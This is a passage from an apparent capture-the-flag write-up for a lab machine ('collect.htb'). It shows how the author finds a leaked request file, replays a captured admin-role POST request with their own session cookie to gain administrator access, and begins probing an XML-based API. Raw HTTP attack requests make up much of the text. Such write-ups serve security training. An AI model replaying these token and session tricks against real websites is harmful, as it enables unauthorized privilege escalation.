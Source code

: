### Forum

This was a forum page for users to write stuff, and there was some threads and a user that was active.

<figure><img src="../../../.gitbook/assets/image (89) (1) (2).png" alt=""><figcaption></figcaption></figure>

Reading some of the posts, I saw that there was indeed a Pollution API somewhere.

<figure><img src="../../../.gitbook/assets/image (346) (1).png" alt=""><figcaption></figcaption></figure>

I created a test user to download that file. The file contained a load of base64 encoded requests and stuff. Reading the requests, we can see that there was one to the /admin panel on the main website.

<figure><img src="../../../.gitbook/assets/image (345) (2).png" alt=""><figcaption></figcaption></figure>

Decoding the request, we find that it gives us a token.

```http
POST /set/role/admin HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r8qne20hig1k3li6prgk91t33j
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

token=ddac62a28254561001277727cb397baf
```

By replacing the PHPSESSID with our own created user, we can become an administrator by sending the same POST request to the website.

<figure><img src="../../../.gitbook/assets/image (37) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

From here, we can register our own user and gain access to the API stuff.

### API

Reading the reques send to the API, we can see that this processes requests using XML.

```http
POST /api HTTP/1.1
Host: 10.129.106.251
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 178
Origin: http://10.129.106.251
Connection: close
Referer: http://10.129.106.251/admin
Cookie: PHPSESSID=e50hu9lk5rkblb7tdlm3310fk4



manage_api=<?xml version="1.0" encoding="UTF-8"?><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>password123</password></user></root>
```
